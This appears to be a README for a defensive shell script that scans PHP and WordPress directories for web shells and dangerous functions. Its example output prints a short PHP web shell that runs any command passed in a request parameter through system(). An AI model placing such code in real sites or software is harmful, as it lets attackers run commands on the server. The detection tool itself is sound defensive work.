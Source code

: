 **Description:**

Simple script for detect possible backdoors in files PHP. (Good for the Wordpress PHP files.)


**Usage:**
```
$ ./findbackdoor 

   Invalid option!

   Use: ./findbackdoor.sh <directory scan> <1 or 2> <lines>
   1 = WebShells
   2 = Functions ( <lines> is the number of lines before and after the match (default: 5) )

$ ./findbackdoor /tmp/teste/ 1

[+] Possible webshell found! 
/tmp/teste/c99.php

$ ./findbackdoor /tmp/teste/ 2

[+] Possible dangerous function!
[+] Last modification in /tmp/teste/ha.php: 2014-10-15 02:14:38.163231500 -0300

1-<?php
2-if(isset($_REQUEST[‘cmd’])){
3-        echo "<pre>";
4-        $cmd = ($_REQUEST[‘cmd’]);
5:        system($cmd);
6-        echo "</pre>";
7-        die;
8-}
9-?>

$ ./findbackdoor /tmp/teste/ 2 1

[+] Possible dangerous function!
[+] Last modification in /tmp/teste/ha.php: 2014-10-15 02:14:38.163231500 -0300

4-        $cmd = ($_REQUEST[‘cmd’]);
5:        system($cmd);
6-        echo "</pre>";

$ 
```

**TODO:**

Missing some features, but it's a start. 
Please PR me. ;)

[]'s

